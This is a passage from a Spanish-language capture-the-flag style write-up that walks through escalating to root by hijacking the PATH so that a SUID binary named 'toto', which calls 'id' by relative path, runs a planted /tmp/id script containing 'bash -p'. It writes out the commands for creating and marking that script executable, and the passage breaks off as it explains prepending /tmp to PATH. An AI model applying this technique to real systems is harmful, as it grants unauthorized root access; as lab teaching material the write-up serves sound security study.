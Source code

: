Vemos que es un binario SUID, vamos a ver que hace:
```
./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

Si abrimos el binario, por supuesto es ilegible, pero si utilizamos strings podemos ver palabras:
```
bash-5.0$ strings toto
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
```

Vemos un par de cosas interesantes, pero nada crítico.

Vemos que este binario se comporta como el **id**, vamos a hacer una prueba, pues puede ser que este binario este utilizando este comando de forma relativa y no absoluta, en este caso podríamos realizar un cambio de path, en donde vamos a hacer que este archivo se ejecute y busque el comando **id** y use el que nosotros queremos, como el usuario que lo ejecuta es root, como es SUID, deberíamos ganar acceso como el. Lo haremos de la siguiente forma.

Vamos a ir al directorio **tmp** y crearemos un archivo, el cual se ejecutaría como si fuera un archivo en bash:
```
bash-5.0$ cd /tmp
bash-5.0$ echo "bash -p" > id
bash-5.0$ cat id
bash -p
```

Vemos que hemos creado un archivo id, el cual en caso de ejecutarse nos daría una bash con privilegios.

Vamos a darle permisos de ejecución.
```
bash-5.0$ chmod +x id
```
Bien, ahora tenemos esto listo, sin embargo, como haces que ejecute este archivo? para eso haremos una modifición a la variable de entorno PATH, en donde se empiezan a buscar todos los binarios, para ello vamos a introducir la dirección tmp como primera opción, por lo tanto, en caso de que se esté aplicando una ruta relativa, vaya al path y ejecute nuestro binario, pues es el primero que va a encontrar.
